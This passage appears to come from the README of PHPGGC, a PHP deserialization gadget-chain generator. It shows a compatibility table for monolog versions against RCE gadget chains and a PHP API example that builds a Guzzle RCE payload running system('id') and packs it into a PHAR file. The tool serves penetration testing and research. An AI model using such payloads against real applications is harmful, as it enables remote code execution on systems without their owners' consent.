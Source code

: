 ```
│ dev-main        │   OK    │      OK      │      KO      │
│ * dev-phpstan   │   OK    │      OK      │      KO      │
└─────────────────┴─────────┴──────────────┴──────────────┘
```

You can specify the versions you want to test by using the following syntaxe.

```
$ ./test-gc-compatibility.py monolog/monolog:2.3.0,1.25.4 monolog/rce1 monolog/rce3
Testing 2 versions for monolog/monolog against 2 gadget chains.

┏━━━━━━━━━━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━┓
┃ monolog/monolog ┃ Package ┃ monolog/rce1 ┃ monolog/rce3 ┃
┡━━━━━━━━━━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━┩
│ 2.3.0           │   OK    │      OK      │      KO      │
│ 1.25.4          │   OK    │      OK      │      KO      │
└─────────────────┴─────────┴──────────────┴──────────────┘
```

# API

Instead of using PHPGGC as a command line tool, you can program PHP scripts:

```php
<?php

# Include PHPGGC
include("phpggc/lib/PHPGGC.php");

# Include guzzle/rce1
$gc = new \GadgetChain\Guzzle\RCE1();

# Always process parameters unless you're doing something out of the ordinary
$parameters = $gc->process_parameters([
	'function' => 'system',
	'parameter' => 'id',
]);

# Generate the payload
$object = $gc->generate($parameters);

# Most (if not all) GC's do not use process_object and process_serialized, so
# for quick & dirty code you can omit those two 
$object = $gc->process_object($object);

# Serialize the payload
$serialized = serialize($object);
$serialized = $gc->process_serialized($serialized);

# Display it
print($serialized . "\n");

# Create a PHAR file from this payload
$phar = new \PHPGGC\Phar\Tar($serialized);
file_put_contents('output.phar.tar', $phar->generate());
```
